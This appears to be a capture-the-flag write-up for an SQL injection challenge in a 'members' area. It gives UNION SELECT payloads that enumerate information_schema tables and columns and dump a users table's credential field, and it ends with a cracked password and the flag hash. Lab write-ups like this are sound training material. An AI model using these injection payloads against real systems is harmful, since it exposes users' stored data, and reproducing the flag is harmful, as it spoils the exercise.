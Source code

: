 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found a schema with all users data like first_name, town and countersign .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
